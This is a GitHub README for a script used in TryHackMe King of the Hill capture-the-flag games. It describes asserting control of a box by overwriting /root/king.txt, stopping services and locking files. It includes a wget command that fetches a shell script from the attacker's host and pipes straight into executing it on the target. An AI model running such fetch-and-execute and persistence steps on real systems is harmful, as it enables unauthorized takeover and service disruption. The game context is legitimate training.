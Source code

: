 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>

**NOTE: Respect TryHackMe Rules: The KOTH Script is intended for recreational purposes within authorized environments, such as private games. Always adhere to the rules and guidelines provided by TryHackMe or any other platform you are using. The creator of this script is not responsible for any misuse or violation of terms. Use it responsibly and ethically.**

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the `/root/king.txt` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script.The KOTH script relies on the server to retrieve and run the check & chattr & guardian scripts.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.

## Note
Please comment out the lines that include "chattr -i" and "chattr +i" when you want to run the script on "Production" game.
